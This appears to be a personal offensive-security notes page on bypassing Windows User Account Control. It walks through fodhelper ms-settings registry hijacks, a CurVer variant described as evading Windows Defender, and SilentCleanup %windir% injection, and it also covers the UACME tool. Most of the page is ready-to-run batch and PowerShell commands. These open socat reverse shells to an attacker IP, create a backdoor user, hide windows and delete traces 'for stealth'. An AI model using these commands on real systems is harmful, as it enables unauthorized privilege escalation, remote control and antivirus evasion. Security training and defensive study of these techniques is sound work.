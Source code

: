 # Bypassing Windows User Account Control

For the fundamentals of UAC see [[Windows-User-Account-Control]]

When creating a backdoor post exploit you may see this error:
```powershell
net user backdoor Backd00r /add
System error 5 has occurred.

Access is denied.
```

`whoami /groups` will show that the session is running in medium Integrity Levels, UAC prevents even Administrators from performing administrative tasks with filtered token.

## GUI Based Bypasses

#### msconfig

From the `Search -> Run`  open `msconfig`, using the [[Process-Hacker]] if it runs with High IL: navigate to the `Tools` tab and select `Command Prompt` 

#### azman.msc 
From the `Search -> Run`  open, using the [[Process-Hacker]] if it runs with High IL: Click the tab `Help -> Help Topics -> Right-Click -> View-Source`, which will open notepad `File -> Open C:\Windows\System32\cmd.exe`, but then when you find it in the file listing `Right-Click -> Open`

## UAC AutoElevate Processes

Some executable can auto-elevate to high IL - most of Control Panel's functionality and some native executables. Requirements for auto-elevation:
1. The executable must be signed by Windows Publisher
2. The executable must be contained in trusted directory, like `%SystemRoot%/System32/` or ``%ProgramFiles%/`

Additional requirements depending on application:
	1. Executable files must declare the autoElevate element inside their manifests - use [[Sysinternals-Sigcheck]] to check manifest.
	2. mmc.exe will auto elevate depending on the .msc snap-in taht the user requests - most Windows .msc files will auto-elevate.
	3. Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. [[UAC-AutoElevate-List]]
	4. COM objects can request auto-elevation by configuring registry keys [Docs](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)

#### fodhelper
fodhelper is default windows executable in charge of managing Windows optional features, infamously used in [Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit). Fodhelper can auto elevate when using default settings and can be exploited without GUI access. 

Create a association for ProgID for a file in current users HKCU, allow us to override the default system-wide association and control the `command` used to open that file. To elaborate, the Programming ID(ProgID) key in the registry is associated with the application. Windows prioritises the HKCU over the HKLM key. The command used to specify the subkey located within the registry tree  `shell/open/command`. 

```batch
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\<reverse-shell.exe> <reverse-shell-commands>""
reg add %REG_KEY% /v "DelegateExecute" /d "" /f 
reg add %REG_KEY% /d %CMD% /f
```

Delete for stealth:
```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```

Query to check:
```batch
reg query %REG_KEY% /v ""
```

## Windows Defender
Same as the above, but the final line is:
```batch
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

Warning this may still fail. It succeeds base whether the payload or AV executes first. It is still detected by Windows Defender. The improved version is from :[v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

Instead of \\Shell\\Open\\command, we use `CurVer` entry under a progID registry key, which commonly used when you have multiple instances of an application with different version running on the same system, `CurVer` points to a default version.

Modified [v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses) version from [[Tryhackme]].
```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

# create new progID with name .pwn  
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force

# points to CrVer entry of ms-settings
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

It is more likely to evade Windows Defender as name of the progID that holds our payload is entirely arbitrary. Instead of Windows Defender matching a single indicator, the pointing is transitive and therefore evasive as it encapsulated in the act of point, data-wise. But AV detection methods are implemented strictly against the published exploit so: 
```powershell
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

Clean up:
```powershell
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

## UAC Enivronment Variable Expansion

If UAC is configured to `Always Notify`, similar autoElevate exploiatable application won't work. Instead scheduled tasks that can be run by any user, but executed at highest privileges available to the caller - disabling Windows Defender prior to this is required.

Using `Task Scheduler` tasks can set `When running the task, use the following user account: Run only when user is logged on; Run whether user is is logged on or not - [] Do not store password. The task will only have access to local resources` plus it has another checkbox for `Run with highest privileges`, this will use the highest Integrity Level the user has - this is an so Administrator only exploit.

For example(with` Task Scheduler` open) with `DiskCleanup`:
`Double Click Task -> GOTO -> Actions tab`; if the run on-demand command depends on enviroment variables it is possible to inject commands and then have the task execute them by starting it manually.

`%windir%` can be overriden by creating an entry in the `HKCU\Environment`
set `%windir%` to `"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

**Be sure to note the executed command to avoid any artefact interfering with anything else.  Since many Windows components rely on the %windir% environment variable, a lot of things won't properly work until you remove the registry key used for this bypass.**

```batch
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

And for the cleanup
```batch
reg delete "HKCU\Environment" /v "windir" /f
```

## UACME

[UACME Github](https://github.com/hfiref0x/UACME) *"Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor."* Be warned the naming convention is not-descriptive. And therefore will probably require cataloguing them myself.
- x86-32/x64 Windows 7/8/8.1/10/11 (client, some methods however works on server version too).
- Admin account with UAC set on default settings required.

Run executable from command line: akagi32 [[UACME-Keys]] Param or akagi64 [[UACME-Keys]] Param. 

First parameter is number of method to use, second is optional command (executable file name including full path) to run. Second parameter can be empty - in this case program will execute elevated cmd.exe from system32 folder. See listing of keys locally: [[UACME-Keys]] or [externally](https://github.com/hfiref0x/UACME)

## Reference

[COM Elevation Moniker Documentation](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)
[Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit)
[v3ded Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
[UACME Github](https://github.com/hfiref0x/UACME) 